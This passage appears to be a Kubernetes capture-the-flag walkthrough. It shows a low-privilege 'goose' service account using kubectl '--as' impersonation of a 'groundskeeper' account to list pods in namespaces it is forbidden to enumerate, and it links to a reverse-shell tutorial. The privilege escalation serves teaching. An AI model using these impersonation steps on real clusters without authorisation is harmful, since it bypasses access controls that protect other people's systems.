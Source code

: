 This is easier than it first appears. There is another service account in the
garden namespace called "groundskeeper".

```
$ kubectl get sa
NAME            SECRETS   AGE
default         1         21h
goose           1         21h
groundskeeper   1         21h
```
While the goose account has little to no access to anything, it **DOES** have
the ability to [impersonate] the [groundskeeper] with `--as`.

```
$ kubectl get po --as system:serviceaccount:garden:groundskeeper
NAME                            READY   STATUS    RESTARTS   AGE
groundskeeper-99c96696f-kvwqx   1/1     Running   0          21h
```

---

## Todo 2 - Get to the Pub

**Hint:** Let's go to the Winchester, have a nice cold pint, and wait for this
all to blow over.

Todo-1 and Todo-2 are closely related. As the goose you cannot enumerate anything
within the [pub][ns] namespace.

```
$ kubectl get ns
NAME              STATUS   AGE
default           Active   21h
garden            Active   21h
home              Active   21h
kube-node-lease   Active   21h
kube-public       Active   21h
kube-system       Active   21h
model-village     Active   21h
pub               Active   21h

$ kubectl get po -n pub
 Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:garden:goose" cannot list resource "pods" in API group "" in the namespace "pub"
```

However as the groundskeeper...
```
$ kubectl get po --as system:serviceaccount:garden:groundskeeper -n pub
NAME                               READY   STATUS      RESTARTS   AGE
barkeep-7fd8878887-n9r8t           1/1     Running     0          21h
burly-man-56588df9dd-5qzj4         1/1     Running     0          21h
delivery-person-65d5c4fcf7-z8849   1/1     Running     0          21h
old-man-bf794945f-twjn5            1/1     Running     0          21h
woman-0                            1/1     Running     0          21h
woman-1                            1/1     Running     0          21h
```


[kind]: https://kind.sigs.k8s.io
[ns]: manifests/02/00-namespaces.yaml
[goose]: manifests/02/03-goose.yaml
[groundskeeper]: manifests/02/04-groundskeeper.yaml
[bell]: manifests/02/10-bell.yaml
[oldman]: manifests/02/08-old-man.yaml
[barkeep]: manifests/02/05-barkeep.yaml
[burly-man]: manifests/02/06-burly-man.yaml
[impersonate]: https://kubernetes.io/docs/reference/access-authn-authz/authorization/#checking-api-access
[psp]: https://kubernetes.io/docs/concepts/policy/pod-security-policy/
[how-to]: https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/